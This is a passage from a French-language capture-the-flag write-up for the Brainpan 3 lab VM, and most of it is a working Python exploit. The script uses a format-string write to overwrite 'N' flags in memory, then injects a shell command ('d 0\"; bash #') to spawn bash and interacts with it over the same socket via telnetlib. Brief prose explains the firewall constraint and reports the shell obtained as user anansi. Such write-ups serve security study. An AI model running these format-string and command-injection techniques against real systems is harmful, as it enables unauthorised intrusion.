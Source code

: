 Il ne reste qu'à adapter notre code Python :  

```python
nope_addresses = []
offset = 0
while True:
    try:
        offset = dump.index(b"N\0\0\0", offset)
    except ValueError:
        # No more N's
        break
    else:
        nope_addresses.append(start + offset)
        offset += 4

for nope in nope_addresses:
    # Let's replace N's with Y's
    print("N found at 0x{:08x}".format(nope))
    session = b"%89c%6$hhnBB" + struct.pack("<I", nope) + b"DDDD"
    sock.send(b"3\n")
    wait_until(sock, "NEW SESSION NAME:")
    sock.send(session)
    pattern, buff = wait_until(sock, "ENTER COMMAND:")

sock.send(b"3\n")
wait_until(sock, "NEW SESSION NAME:")
sock.send(b"YOLO\0\n")
wait_until(sock, "ENTER COMMAND:")

sock.send(b"1\n")
wait_until(sock, "END WITH NEW LINE:")
# Let's escape the double-quotes, comment the end to prevent errors
sock.send(b"d 0\"; bash #\n\n")

sleep(1)
t = Telnet()
t.sock = sock
t.interact()
sock.close()
```

L’utilisation du module *telnetlib* de Python permet de rediriger facilement notre socket client vers l'entrée/sortie de notre terminal afin de dialoguer avec le shell obtenu.  

![Brainpan 3 CTF format string exploit anansi shell](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_anansi_shell.png)

Note importante: faire transiter le shell par le même port n'est pas un choix car les connexions sortantes sont bloquées par le pare feu et comme on a activé le port 8080 via la commande 2 on ne peut pas profiter de ce port. Redémarrer la VM serait une solution pour utiliser ce port mais on pourrait considérer cela comme de la triche.  

On a donc notre utilisateur *uid=1000(anansi) gid=1003(webdev) groups=1000(anansi)* sur une distribution *Ubuntu trusty 14.04.2 LTS*.  
